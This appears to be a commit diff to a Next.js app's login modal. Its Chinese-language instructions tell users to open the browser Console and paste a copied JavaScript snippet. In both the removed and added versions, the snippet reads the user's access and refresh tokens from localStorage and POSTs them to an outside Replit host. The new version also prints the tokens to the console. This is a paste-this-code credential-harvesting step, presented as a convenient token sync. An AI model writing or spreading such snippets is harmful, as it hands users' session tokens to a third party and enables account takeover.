

Before and after one commit to kinai9661/geminigen, a Next.js app: page / in a window 1280 px wide. Shown: the top 800 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
更新 Console 代碼：改為從本站 localStorage 提取 Token

```diff
--- a/components/AuthModal.tsx
+++ b/components/AuthModal.tsx
@@ -171,13 +171,13 @@ export default function AuthModal() {
         <div className="p-6 space-y-6">
           {/* Instructions */}
           <div className="bg-gray-900/50 rounded-lg p-4 space-y-3 text-sm">
-            <h3 className="font-semibold text-white mb-3">📋 取得 Token 步驟：</h3>
-            <ol className="space-y-2 text-gray-300 list-decimal list-inside">
-              <li>開啟 <a href="https://geminigen.ai" target="_blank" rel="noopener noreferrer" className="text-primary-400 hover:underline">geminigen.ai</a> 並用 Google 帳號登入</li>
-              <li>按 <kbd className="px-2 py-1 bg-gray-700 rounded text-xs">F12</kbd> 開啟開發者工具 → 點「Console」分頁</li>
-              <li>複製下方代碼，貼到 Console 後按 Enter</li>
-              <li>看到「✅ Token 已成功同步到星光工坊！」即完成</li>
-            </ol>
+            <h3 className="font-semibold text-white mb-3">📋 認證方式：</h3>
+            <div className="space-y-2 text-gray-300">
+              <p><strong>方式 1（推薦）：</strong>點擊下方「⚡ 一鍵同步 Token」按鈕</p>
+              <p><strong>方式 2：</strong>在本站按 <kbd className="px-2 py-1 bg-gray-700 rounded text-xs">F12</kbd> → Console → 貼上下方代碼</p>
+              <p><strong>方式 3：</strong>點擊「🔍 自動提取」按鈕，然後手動點擊「連接」</p>
+              <p className="text-xs text-gray-400 mt-2">💡 提示：請先在 <a href="https://geminigen.ai" target="_blank" rel="noopener noreferrer" className="text-primary-400 hover:underline">geminigen.ai</a> 登入並完成認證</p>
+            </div>
           </div>
 
           {/* 一鍵同步按鈕 */}
@@ -211,10 +211,10 @@ export default function AuthModal() {
           {/* Code Block */}
           <div className="bg-gray-900 rounded-lg p-4 relative">
             <div className="flex items-center justify-between mb-2">
-              <span className="text-xs text-gray-400">或使用 Console 手動同步</span>
+              <span className="text-xs text-gray-400">方式 2：在本站 Console 執行（從本站 localStorage 提取）</span>
               <button
                 onClick={() => {
-                  const code = `(function(){var t=null;for(var k in localStorage){try{var v=JSON.parse(localStorage.getItem(k)||'');if(v&&v.access_token&&v.refresh_token){t=v;break;}}catch(e){}}if(!t){var at=localStorage.getItem('access_token'),rt=localStorage.getItem('refresh_token');if(at&&rt)t={access_token:at,refresh_token:rt};}if(!t){alert('找不到 Token，請先登入 geminigen.ai');return;}fetch('https://gemiai.replit.app/api/public/receive-tokens',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({otp:'3a8f1cda-c4e6-44f0-be44-0bb0fa4f5a8d',access_token:t.access_token,refresh_token:t.refresh_token,label:'3'})}).then(function(r){return r.json()}).then(function(d){if(d.success)alert('✅ Token 已成功同步到星光工坊！');else alert('❌ 同步失敗：'+(d.error||'未知錯誤'));}).catch(function(){alert('❌ 無法連接星光工坊');});})();`;
+                  const code = `(function(){var s=JSON.parse(localStorage.getItem('auth-storage')||'{}').state;if(!s||!s.accessToken||!s.refreshToken){alert('❌ 請先在網站上完成認證');return;}fetch('https://gemiai.replit.app/api/public/receive-tokens',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({otp:'3a8f1cda-c4e6-44f0-be44-0bb0fa4f5a8d',access_token:s.accessToken,refresh_token:s.refreshToken,label:'3'})}).then(function(r){return r.json()}).then(function(d){if(d.success){alert('✅ Token 已成功同步到星光工坊！');console.log('Access Token:',s.accessToken);console.log('Refresh Token:',s.refreshToken);}else alert('❌ 同步失敗：'+(d.error||'未知錯誤'));}).catch(function(){alert('❌ 無法連接星光工坊');});})();`;
                   navigator.clipboard.writeText(code);
                   alert('已複製到剪貼簿！');
                 }}
@@ -224,7 +224,7 @@ export default function AuthModal() {
               </button>
             </div>
             <pre className="text-xs text-gray-300 overflow-x-auto max-h-32">
-              <code>{`(function(){var t=null;for(var k in localStorage){try{var v=JSON.parse(localStorage.getItem(k)||'');if(v&&v.access_token&&v.refresh_token){t=v;break;}}catch(e){}}if(!t){var at=localStorage.getItem('access_token'),rt=localStorage.getItem('refresh_token');if(at&&rt)t={access_token:at,refresh_token:rt};}if(!t){alert('找不到 Token，請先登入 geminigen.ai');return;}fetch('https://gemiai.replit.app/api/public/receive-tokens',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({otp:'3a8f1cda-c4e6-44f0-be44-0bb0fa4f5a8d',access_token:t.access_token,refresh_token:t.refresh_token,label:'3'})}).then(function(r){return r.json()}).then(function(d){if(d.success)alert('✅ Token 已成功同步到星光工坊！');else alert('❌ 同步失敗：'+(d.error||'未知錯誤'));}).catch(function(){alert('❌ 無法連接星光工坊');});})();`}</code>
+              <code>{`(function(){var s=JSON.parse(localStorage.getItem('auth-storage')||'{}').state;if(!s||!s.accessToken||!s.refreshToken){alert('❌ 請先在網站上完成認證');return;}fetch('https://gemiai.replit.app/api/public/receive-tokens',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({otp:'3a8f1cda-c4e6-44f0-be44-0bb0fa4f5a8d',access_token:s.accessToken,refresh_token:s.refreshToken,label:'3'})}).then(function(r){return r.json()}).then(function(d){if(d.success){alert('✅ Token 已成功同步到星光工坊！');console.log('Access Token:',s.accessToken);console.log('Refresh Token:',s.refreshToken);}else alert('❌ 同步失敗：'+(d.error||'未知錯誤'));}).catch(function(){alert('❌ 無法連接星光工坊');});})();`}</code>
             </pre>
           </div>
 
```
